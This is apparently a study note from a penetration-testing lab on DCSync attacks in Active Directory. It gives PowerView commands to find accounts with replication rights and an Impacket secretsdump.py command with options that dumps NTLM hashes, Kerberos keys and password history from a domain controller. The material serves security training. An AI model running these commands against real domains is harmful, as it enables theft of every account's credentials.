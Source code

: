 

## **Core Mechanics**
1. **Protocol Misuse**:
   - Exploits the replication process where Domain Controllers (DCs) share data for synchronization.
2. **Outcome**:
   - Steals NTLM hashes, Kerberos keys, and optionally cleartext passwords if reversible encryption is enabled.


## **Detecting DCSync Rights**

### **Step 1: Verify Group Membership**
- Check if the user (`adunn`) belongs to privileged groups:
  ```powershell
  Get-DomainUser -Identity adunn | select samaccountname, objectsid, memberof, useraccountcontrol | fl
  ```
- Example output:
  - Normal account with additional permissions:
    - `DONT_EXPIRE_PASSWORD`
    - Membership in security groups with extended rights.

### **Step 2: Check ACLs for Replication Rights**
- Extract user's **Security Identifier (SID)**:
  ```powershell
  $sid = "S-1-5-21-3842939050-3880317879-2865463114-1164"
  ```
- Use `Get-ObjectAcl` to verify replication permissions:
  ```powershell
  Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get') } | ?{ $_.SecurityIdentifier -match $sid }
  ```
- Example output includes:
  - `DS-Replication-Get-Changes`
  - `DS-Replication-Get-Changes-All`



## **Performing DCSync Attacks**

### **Using Impacket (Linux Host)**
1. **Run secretsdump.py**:
   ```bash
   secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5
   ```
2. **Options**:
   - `-just-dc`: Extract NTLM hashes and Kerberos keys.
   - `-just-dc-user <USERNAME>`: Extract for a specific user.
   - `-history`: Dump password history.
   - `-pwd-last-set`: Check password last change timestamps.
